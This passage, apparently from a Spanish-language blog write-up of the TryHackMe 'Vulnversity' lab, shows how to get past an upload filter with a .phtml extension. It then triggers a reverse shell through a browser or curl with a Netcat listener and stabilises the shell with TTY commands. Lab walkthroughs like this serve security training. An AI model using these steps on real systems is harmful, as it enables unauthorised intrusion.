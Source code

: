 Con esta información, ya sabemos que tipo de archivo es válido para subir en la ruta `internal`, por lo que procederemos a cambiar la extensión de nuestro archivo y subirlo una última vez.

Una vez el archivo está subido, podemos ponernos en escucha por el puerto que hayamos establecido en nuestra `reverse shell` a través de `Netcat`. A partir de aquí podemos hacer dos cosas:

Podemos navegar a la dirección en la que está subido nuestro archivo (tal como lo indica la plataforma de _TryHackMe_), es decir, entrar a:

```
http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```
O por otra parte, y sin dejar la consola, utilizar el comando `curl`:

```
curl http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```

Ambas opciones, nos conseguirán una _consola_ dentro de la máquina víctima.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-27-Vulnversity---Try-Hack-Me/12.png)

Es importante aclarar que la _consola_ que acabamos de conseguir, no es nada interactiva, esto quiere decir que si quisieramos limpiar la _consola_ utilizando `Ctrl + L`, no pasará nada, así mismo si quisieramos desplazarnos utilizando las `flechas` del teclado, no nos será posible hacerlo, para ello deberemos de realizar el respectivo tratamiento de la `TTY`, para lo cual haremos lo siguiente:

```
script /dev/null -c bash

Ctrl + Z

stty raw -echo; fg
reset
xterm

export TERM=xterm
export SHELL=bash

stty rows <valor> columns <valor>
```
